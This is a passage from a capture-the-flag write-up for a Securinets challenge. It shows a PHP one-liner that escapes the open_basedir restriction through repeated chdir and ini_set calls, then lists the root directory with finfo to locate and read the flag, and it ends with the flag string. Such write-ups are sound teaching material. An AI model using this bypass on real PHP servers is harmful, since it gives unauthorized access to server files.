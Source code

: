 One problem is left: How to read the flag file without knowing it's name ?

The best thing about `finfo` is you can not only read files, but also read directories, like this:
```php
new finfo(0,'/');
```

Let's assemble everything and read this damn flag:

```php
ini_set('display_errors',1);error_reporting(E_ALL);chdir('images');ini_set('open_basedir','..');chdir('..');chdir('..');chdir('..');chdir('..');ini_set('open_basedir','/');new finfo(0,"/")
```

![flag](img/7.png)

### Flag: 

`securinets{87E4C6A81CD3104AE4ADBF0758268134D0B}`